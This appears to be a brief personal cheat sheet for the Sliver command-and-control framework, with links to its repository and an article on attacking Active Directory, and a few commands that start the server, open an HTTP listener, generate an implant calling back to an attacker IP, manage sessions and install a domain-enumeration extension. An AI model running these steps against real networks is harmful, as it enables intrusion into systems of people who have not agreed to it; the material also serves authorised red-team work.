 https://github.com/BishopFox/sliver

https://rootsecdev.medium.com/hacking-active-directory-with-sliver-c2-19d7ceabbf13

```bash
./sliver-server_linux

# Generate Listener on Custom Port
http -l 8085

# Generate Implants
generate --http <ip> --save #/home/path

sessions

use <session id>

armory

armory install c2tc-domaininfo
```